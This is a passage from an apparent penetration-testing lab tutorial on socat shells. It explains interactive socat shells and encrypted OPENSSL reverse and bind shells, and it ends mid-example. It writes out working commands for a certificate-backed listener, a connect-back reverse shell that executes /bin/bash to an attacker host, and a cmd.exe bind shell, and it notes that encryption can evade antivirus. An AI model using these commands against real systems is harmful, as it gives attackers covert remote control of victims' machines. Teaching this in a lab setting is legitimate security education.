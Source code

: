 That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

# Socat Encrypted Shells 

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass antivirus software as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:

cat shell.key shell.crt > shell.pem

Now, when we set up our reverse shell listener, we use:

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

The same technique would apply for a bind shell:

Target:

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

Attacker:
